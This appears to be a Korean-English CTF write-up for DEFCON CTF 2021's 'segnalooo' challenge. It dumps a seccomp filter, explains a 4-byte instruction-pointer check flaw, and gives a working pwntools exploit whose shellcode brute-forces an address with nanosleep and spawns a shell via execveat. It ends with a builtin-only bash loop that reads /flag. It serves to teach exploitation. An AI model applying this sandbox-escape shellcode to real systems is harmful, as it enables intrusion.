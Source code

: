 ```yaml
---
layout: post
title: DEFCON CTF 2021 segnalooo write-up
categories: ctf-write-up
tag: [ctf]
---
```


## segnalooo (20solves)

나는 이 문제를 처음부터 보지 않았다. 팀원(epist, mhibio)이 먼저 진행하고 있었고, 원하는 셸 코드를 실행 할 수 있는 상황이었다.

I joined this chall a little late. My team members(epist, mhibio) were working on it first and was able to execute shell code.

```python
context.log_level = 'debug'
p = process('./stub.bin')
payload = p8(0xf1)
payload += asm(f'''
    mov eax, 0
    syscall
''')
print(disasm(payload))
p.sendlineafter("Give me some code!\n", payload.hex())
p.interactive()
```

위와 같은 코드가 작성된 시점에서 이 문제에 합류 했으며, 나는 소스코드 분석은 하지 않았다. 

I joined this chall at the time the above code was written and I did not do source code analysis.



seccomp는 다음과 같다.

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0a 0xc000003e  if (A != ARCH_X86_64) goto 0012
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x08 0x00 0x40000000  if (A >= 0x40000000) goto 0012
 0004: 0x15 0x06 0x00 0x0000000b  if (A == munmap) goto 0011
 0005: 0x15 0x05 0x00 0x00000023  if (A == nanosleep) goto 0011
 0006: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0007: 0x25 0x04 0x00 0x80000000  if (A > 0x80000000) goto 0012
 0008: 0x20 0x00 0x00 0x00000000  A = sys_number
 0009: 0x15 0x02 0x01 0x0000003b  if (A == execve) goto 0012 else goto 0011
 0010: 0x06 0x00 0x00 0x00000000  return KILL
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```

`munmap`과 `nanosleep`을 사용할 수 있고 **RIP가 0x80000000 이하일 때 execve를 제외한 모든 syscall을 사용할 수 있다.**

We can use `munmap` and `nanosleep`. and **When RIP is below 0x80000000, we can use all syscalls except execve.**



shellcode를 실행하는 시점의 메모리는 다음과 같다.

The memory at the time shellcode is executed is as follows.

![image](https://user-images.githubusercontent.com/43925259/116833821-443bb400-abf6-11eb-8b4e-c1e45f23b863.png)

우리의 셸 코드는 0x5xxxxxxxxxxx 영역에서 실행되고 0x10xxxxxxxxxx영역엔 셸 코드를 실행하기 이전에 레지스터를 초기화하는 등 다양한 작업을 하는 영역이다. 나머지 메모리들은 모두 munmap되어 있다.

Our shell code runs in the 0x5xxxxxxxxxxx region, and the 0x10xxxxxxxxxx region is an area that does various tasks, such as initializing registers before executing shellcode.



일단 무슨 짓을 해도 현재 메모리 영역에선 munmap과 nanosleep밖에 사용할 수 없어서 디버깅을 통해 0x10xxxxxxxxxx영역으로 jmp를 해서 다른 syscall을 실행해보았는데 성공적으로 실행되는 것을 확인했다. 아마 RIP를 비교할 때 4byte만 비교해서 발생하는 현상이다.

When comparing RIP, only 4 bytes are compared, so 0x10xxxxxxxxxx region allows other syscalls to be executed.



이를 통해 0x10xxxxxxxxxx 영역의 주소만 알 수 있으면 레지스터를 세팅후 0x10xxxxxxxxxx영역에 존재하는 syscall 부분으로 jmp를 하여 원하는 syscall을 호출 할 수 있다. 

We can call any syscall by leaking only 0x10xxxxxxxxxx region.



이제 저 주소를 어떻게 알아내냐인데, 내가 처음으로 떠올린 아이디어는 munmap을 이용한 브루트포싱이다. 정상적인 주소를 munmap 했을 땐 0이 리턴되고 비정상적인 경우 음수를 리턴하는 루틴을 사용할려했는데, 비정상적인 주소를 munmap 했을 때도 0을 반환하는 현상이 발생하여 다른 방법을 생각했다.

My first idea is brute-forcing using a munmap. I expected to return 0 when I put in a normal address and negative when I put in an abnormal address. But in any case, it returned zero.



두 번째로 떠올린 아이디어는 nanosleep을 이용한 브루트포싱이다. nanosleep의 첫 번째 인자가 구조체인데, 이 첫 번째 인자에 invalid한 주소를 넣으면 0xfffffffffffffff2를 리턴하고 valid한 주소를 넣으면 0xffffffffffffffea를 리턴한다는 동작을 이용했다. 따라서 다음과 같은 동작을 하는 셸 코드를 작성하면 문제가 풀릴 것으로 예상했다.

My second idea is brute-forcing using a nanosleep. The first argument in this syscall is the structure. It returns 0xfffffffffffffff2 when the first argument is an invalid address. but It returns 0xffffffffffffffea when the first argument is an valid address. So I thought I could write the following shell code.

```c
for (i = 0; i <= 0xfffffff; i++)
    if (syscall(35, (0x10 << 40) + (i << 12), 0) == -22)
        call execveat (set register and jmp (0x10 << 40) + (i << 12) + 0xb4 )
```



셸 코드 작성은 @epist가 완료했고 최종 페이로드는 다음과 같다.

Shellcode was written by the epist.

```python
from pwn import *

context(arch='amd64', os='linux')

context.log_level = 'debug'
#p = remote('segnalooo.challenges.ooo', 4321)
p = process('./stub')
payload = p8(0xf1)
payload += asm('''
    mov rdi, 0x1010101000d4
    loop:
    add rdi, 0x1000
    xor eax, eax
    mov al, 35
    syscall
    cmp al, 0
    jne loop

    sub rdi, 0x1000
    xchg rdi, r12
    lea rsi, [rsp-7]
    
    pop rax
    mov al, 0x42
    jmp r12
''')
payload += ((0x31-len(payload))*b'\x00') + b'/bin/sh\x00'

print(disasm(payload))
p.sendlineafter("Give me some code!\n", payload.hex())
p.interactive()
```



셸을 딴 후 ls나 cat 명령들을 사용하면 Bad system call 이라고 뜨면서 프로그램이 종료된다. execve syscall을 사용못하게 해놔서 그런데 이는 다음과 같은 bash command를 이용하여 우회할 수 있다.

After executing the /bin/sh command, using the ls or cat commands results in an error called "Bad system call". I read the flag using bash command because I can't use execve syscall.

```bash
while read line;do echo "$line";done < /flag
```

![image](https://user-images.githubusercontent.com/43925259/116834473-42bfbb00-abf9-11eb-892c-94ba7d0245c5.png)

